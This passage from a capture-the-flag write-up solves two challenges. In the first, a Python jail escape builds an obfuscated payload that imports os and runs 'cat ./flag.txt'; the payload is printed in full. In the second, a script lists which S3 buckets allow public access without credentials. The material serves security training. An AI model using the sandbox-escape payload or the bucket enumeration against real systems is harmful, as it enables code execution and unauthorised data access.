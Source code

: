 ```python=
            payload += f".__add__({encoded_ch})"
    assert(eval(payload) == cmd)
    return payload

final_payload = f"(lambda:__builtins__.__import__({payload_creator('os')}).system({payload_creator('cat ./flag.txt')}))()"
print(final_payload) 
```

- This generates us the following payload

```
(lambda:__builtins__.__import__(open.__name__.__getitem__(0).__add__(set.__name__.__getitem__(0))).system(chr.__name__.__getitem__(0).__add__(abs.__name__.__getitem__(0)).__add__(type.__name__.__getitem__(0)).__add__(str(hash).__getitem__(9)).__add__(hash.__doc__.__getitem__(151)).__add__(divmod.__doc__.__getitem__(20)).__add__(float.__name__.__getitem__(0)).__add__(list.__name__.__getitem__(0)).__add__(abs.__name__.__getitem__(0)).__add__(globals.__name__.__getitem__(0)).__add__(hash.__doc__.__getitem__(151)).__add__(type.__name__.__getitem__(0)).__add__(hex.__name__.__getitem__(2)).__add__(type.__name__.__getitem__(0))))()
```

Flag : ```BSMumbai{J4i1_sh5ll_f0r_FuN}```


### A bucket load of Samosa!

-  Open the link given in the challenge 
-  Save all the bucket names in a text file so that it can be automated.
-  Make a python script to automate the process of checking which bucket's contents can be viewed by public


```python
import subprocess

def check(filename):
    with open(filename, 'r') as file:
        bucket = [line.strip() for line in file.readlines()]

    for name in bucket:
        command = f"aws s3 ls s3://{name}.naughtyide --no-sign-request"
        try:
            result = subprocess.run(command, shell=True, capture_output=True, text=True, check=True)
            if result.returncode == 0:
                print(f"Bucket {name}:")
                print(result.stdout)
        except subprocess.CalledProcessError as e:
            if "NoSuchBucket" in e.stderr:
                print(f"Bucket {name} does not exist.")
            elif "AccessDenied" in e.stderr:
                print(f"Access denied to bucket {name}.")
            else:
                print(f"Error checking bucket {name}: {e.stderr}")

if __name__ == "__main__":
    filename = 'names.txt'  
    check(filename)
```
